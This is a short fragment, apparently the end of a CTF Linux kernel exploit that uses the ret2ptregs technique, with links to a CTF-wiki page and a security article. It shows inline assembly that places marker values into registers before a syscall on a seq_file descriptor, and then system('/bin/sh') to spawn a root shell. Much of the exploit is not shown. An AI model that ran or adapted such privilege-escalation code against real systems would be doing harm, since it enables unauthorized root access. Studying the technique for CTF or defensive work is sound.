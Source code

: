 ```assembly
        "mov rbx, 0x999999999;"
        "mov r11, 0x114514;"
        "mov r10, 0x666666666;"
        "mov r9, 0x1919114514;"
        "mov r8, 0xabcd1919810;"
        "xor rax, rax;"
        "mov rcx, 0x666666;"
        "mov rdx, 8;"
        "mov rsi, rsp;"
        "mov rdi, seq_fd;"
        "syscall"
    );

    system("/bin/sh");

    return 0;
}
```

参考：

https://ctf-wiki.org/pwn/linux/kernel-mode/exploitation/rop/ret2ptregs/

https://www.anquanke.com/post/id/260055#h3-6